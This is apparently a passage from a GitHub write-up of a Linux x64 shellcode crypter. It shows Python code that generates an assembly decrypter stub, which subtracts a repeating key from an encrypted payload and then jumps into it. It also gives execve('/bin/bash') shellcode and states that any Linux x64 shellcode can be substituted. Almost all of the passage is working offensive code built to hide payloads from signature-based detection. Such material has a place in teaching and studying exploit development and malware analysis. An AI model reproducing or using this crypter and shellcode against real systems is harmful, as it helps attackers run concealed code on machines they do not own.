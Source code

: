 ```python
asmFile += 'jmp short callKey\r\n'
asmFile += 'popKey:\r\n'
asmFile += 'pop rax       ; rax = &key\r\n'
asmFile += 'resetKey:\r\n'
asmFile += 'push rax\r\n'
asmFile += 'pop rsi       ; rsi = &key\r\n'
asmFile += 'decryptLoop:\r\n'
asmFile += 'mov dl, [rsi]\r\n'
asmFile += 'sub [rdi], dl    ; decrypt byte of payload\r\n'
asmFile += 'inc rsi          ; next key byte\r\n'
asmFile += 'inc rdi          ; next encrypted byte\r\n'
asmFile += 'mov dx, 0xbbaa\r\n'
asmFile += 'cmp [rdi], dx    ; End of payload?\r\n'
asmFile += 'je payload\r\n'
asmFile += 'mov dl, 0xee\r\n'
asmFile += 'cmp [rsi], dl    ; End of key?\r\n'
asmFile += 'je resetKey\r\n'
asmFile += 'jmp short decryptLoop ; use next byte of key to decrypt\r\n'
asmFile += 'callEncrypted:\r\n'
asmFile += 'call popEncrypted\r\n'
asmFile += 'payload:\r\n'
asmFile += 'db '+encrypted+'\r\n'
asmFile += 'callKey:\r\n'
asmFile += 'call popKey\r\n'
asmFile += 'key:\r\n'
asmFile += 'db '+keyHex+'\r\n'

File    = "decrypt.asm"
try:
    f       = open(File, 'w')
    f.write(asmFile)
    f.close()
    print File + " created successfully"
except:
    print File + ' failed to create'
```

## Configurable Payload
The payload can be changed to any Linux x64 shellcode. This can be done by replacing the `payload` variable within the python program.
```python
# Execve(/bin/bash) Linux/x64 Shellcode
payload  = "\x48\x31\xf6"     # xor rsi, rsi
payload += "\x48\xf7\xe6"     # mul rsi       ; rdx&rax= 0x0
payload += "\x48\x31\xff"     # xor rdi, rdi
payload += "\x57"             # push rdi
payload += "\x48\x83\xc2\x68" # add rdx, 0x68 ; "h"
payload += "\x52"             # push rdx
payload += "\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" 
           # movabs rdx, 0x7361622f6e69622f ; "/bin/bas"
payload += "\x52"             # push rdx
payload += "\x48\x31\xd2"     # xor rdx, rdx
payload += "\x48\x89\xe7"     # mov rdi, rsp  ; rdi = Pointer -> "/bin/bash"0x00
payload += "\xb0\x3b"         # mov al, 0x3b  ; execve syscall number
payload += "\x0f\x05"         # syscall       ; call execve("/bin/bash", NULL, NULL)
```
